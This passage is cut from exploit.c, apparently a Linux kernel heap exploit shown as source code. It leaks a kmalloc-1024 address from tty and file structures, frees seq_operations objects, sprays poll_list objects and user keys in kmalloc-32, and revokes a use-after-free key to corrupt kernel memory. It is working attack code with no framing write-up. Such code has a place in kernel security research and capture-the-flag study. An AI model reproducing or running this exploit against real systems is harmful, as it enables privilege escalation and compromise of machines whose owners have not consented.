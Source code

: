 ```exploit.c
      tmp[ix+2] == tmp[ix+3] && tmp[ix+2] != 0 && // list_head's next and prev are same
      (tmp[ix] & 0xFF) == 0x00 && // tty must be 0x100 aligned
      (tmp[ix + 1] & 0xFF) == 0x00 && // file must be 0x100 aligned
      (tmp[ix + 2] & 0xF) == 0x08
    ) {
      if (km1024_leaked == 0) {
        km1024_leaked = tmp[ix];
        printf("[!] \t+0: 0x%lx (tty)\n", tmp[ix]);
        printf("[!] \t+1: 0x%lx (*file)\n", tmp[ix + 1]);
        printf("[!] \t+2: 0x%lx (list_head.next)\n", tmp[ix + 2]);
        printf("[!] \t+3: 0x%lx (list_head.prev)\n", tmp[ix + 3]);
        break;
      }
    }
  }
  if (km1024_leaked == 0) {
    print_curious(keybuf, 0x4300, 0);
    errExit("Failed to leak kmalloc-1024");
  }
  printf("[!] leaked kmalloc-1024: 0x%lx\n", km1024_leaked);

  /********************************************************/

  // Free `seq_operations`, one of which is `user_key_payload`
  for (int ix = NUM_SEQOPERATIONS - NUM_FREE_SEQOPERATIONS; ix != NUM_SEQOPERATIONS; ++ix) {
    close(seqops_fd[ix]);
  }
  puts("[+] Freeed seq_operations");

  sleep(5); // TODO
  // Spray `poll_list` in kmalloc-32, one of which is placed on `user_key_payload`
  assign_to_core(2);
  neverend = 1;
  puts("[+] spraying `poll_list` in kmalloc-32...");
  num_threads = 0;
  for (int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = 3000; // must 1000 < timeout_ms, to wait key GC
    arg->num_size = 30 + 2;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }
  // wait threads are initialized (to prevent double free)
  assign_to_core(0);
  while(num_threads != NUM_2ND_POLLLIST_ALLOC);
  usleep(300 * 1000);

  // Revoke UAFed key, which is on `poll_list` in kmalloc-32
  puts("[+] Freeing UAFed key...");
  free_key(uafed_key);
  sleep(1);

  // Spray keys on UAFed `poll_list`
  puts("[+] spraying keys in kmalloc-32");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'X', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    ((ulong*)key_payload)[0] = 0x9999999999999999; // debug
     _alloc_key_prefill_ulong_val = km1024_leaked - 0x18; // 0x18 is offset where `user_key_payload` can modify from

    for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
```